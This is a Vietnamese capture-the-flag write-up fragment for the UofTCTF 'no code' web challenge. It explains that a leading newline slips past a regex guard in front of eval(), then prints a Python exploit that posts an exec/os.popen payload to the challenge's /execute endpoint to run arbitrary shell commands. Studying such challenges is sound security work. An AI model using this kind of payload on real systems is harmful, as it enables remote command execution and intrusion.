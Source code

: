 - Đề cho source code như sau:
<p align="center">
    <img src="./src/no_code_02.png" style="width: 70%">
</p>

- Có thể tóm tắt code như này:
    * Ta có thể gửi POST request đến đường dẫn `/execute`. Request này gồm một parameter là `code`
    * Giá trị của `code` được so sánh với một đoạn regex (đoạn này em không hiểu lắm, nhưng chỉ biết là ký tự đầu mà là ký tự `\n` thì không bị nhảy vào trong khối điều kiện)
    * Nếu không thỏa mãn regex thì thực hiện `eval(code)` và trả lại JSON là kết quả trả về
- Em vẫn chưa hiểu payload trong WU của người ta lắm
```py
import requests,json

cmd=input('Commmand: ')
payload=f"\nstr(exec(\"import os; result=os.popen(\'{cmd}\').read();\"))+result"
r=requests.post(
    "https://uoftctf-no-code.chals.io/execute",
    data={"code": payload}
)
# print(r.content.decode())
data=json.loads(r.content.decode())
print(data['output'][4:])
```
